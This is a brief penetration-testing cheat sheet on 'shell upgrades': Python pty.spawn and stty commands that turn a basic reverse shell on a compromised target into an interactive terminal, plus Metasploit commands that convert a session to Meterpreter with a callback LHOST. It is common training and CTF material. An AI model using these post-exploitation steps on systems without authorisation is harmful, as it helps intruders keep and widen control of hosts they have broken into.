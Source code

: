 # Shell Upgrade
- Python
  - On Target
  ```
  which python python3
  python -c 'import pty; pty.spawn("/bin/bash")'
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  Ctrl + Z
  ```

  - On Kali
  ```
  echo $TERM
  stty -a
  stty raw -echo
  fg
  ```

  - On Target
  ```
  reset
  stty rows <no_of_rows> columns <no_of_columns>
  export SHELL=bash; export TERM=xterm-256color
  ```

- Meterpreter
```
sessions -u <session_id>
```
```
use post/multi/manage/shell_to_meterpreter
set LHOST <ip>
set SESSION <session_id>
exploit
```
